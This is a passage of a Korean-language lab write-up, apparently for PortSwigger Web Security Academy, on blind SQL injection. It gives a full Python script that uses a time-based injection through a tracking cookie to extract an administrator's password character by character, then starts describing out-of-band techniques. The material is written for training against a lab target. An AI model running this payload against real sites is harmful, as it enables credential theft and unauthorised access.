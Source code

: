 <br>

이제 `SUBSTR` 함수를 이용해 20자의 패스워드를 한 자씩 알아내야 한다. 오랜 시도와 시간이 걸리기에 Python 코드로 작성하자.

<br>

```python
import requests, time

url = 'https://0af3004e040a35fc82dc7e0300cf0080.web-security-academy.net/'
password = ""

for i in range(20):
    low = 32
    high = 126

    while low+1 < high:
        mid = (low + high) // 2
        headers = {
            "session" : "ZEjsXhcRoquKrD1f5mf2fAH8PJTqp8wK",
            "Cookie": f"TrackingId=abc' %3b SELECT CASE WHEN username='administrator' AND SUBSTR(password, {i+1}, 1) < '{chr(mid)}' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --"
        }

        start_time = time.time()
        response = requests.get(url, headers=headers)

        if time.time() - start_time >= 5:
            high = mid
        else:
            low = mid

    password += chr(low)
    print(f"[{i+1}]Temp Password: {password}")

print(f"Password: {password}")
```

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/53930651-e0f9-4d59-91ff-44882c16df55)

코드를 실행하면 위와 같이 패스워드를 얻을 수 있고 이를 이용하여 로그인하면 문제를 해결할 수 있다.

<br><br>

# #Exploiting blind SQL injection using out-of-band (OAST) techniques

애플리케이션은 이전 예제와 동일한 SQL 쿼리를 수행할 수 있지만 이를 비동기적으로 수행한다. 애플리케이션은 사용자의 요청은 원래의 스레드에서 처리하고 다른 스레드를 사용하여 추적 쿠키를 사용하여 SQL 쿼리를 실행한다. 쿼리는 SQL 인젝션에 여전히 취약하나, 지금까지 설명한 기술 중 어느 것도 작동하지 않는다. 애플리케이션의 응답은 데이터를 반환하는 쿼리, 에러가 발생하는 데이터베이스 또는 쿼리를 실행하는 데 걸리는 시간에 의존하지 않는다.

<br>

제어하는 시스템에 대해 out-of-band 네트워크 상호 작용을 트리거하여 블라인드 SQL 인젝션 취약점을 악용하는 것이 가능한 경우가 많다. 이는 삽입된 조건을 기반으로 트리거 되어 한 번에 한 조각씩 정보를 추론할 수 있다. 또한 네트워크 상호 작용 내에서 직접적으로 데이터를 추출할 수 있다.
